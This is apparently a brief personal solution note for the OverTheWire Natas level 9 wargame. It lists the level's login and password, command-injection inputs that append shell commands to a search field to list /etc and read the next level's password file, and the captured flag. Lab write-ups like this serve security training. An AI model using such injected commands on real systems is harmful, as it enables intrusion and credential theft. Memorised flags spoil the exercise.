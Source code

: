 link: http://natas9.natas.labs.overthewire.org/
login: natas9
pwd: Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd

*steps:*
- ;ls -l /etc/;
- ;ls -l /etc/natas_webpass/;
- ;cat /etc/natas_webpass/natas10;
flag: D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE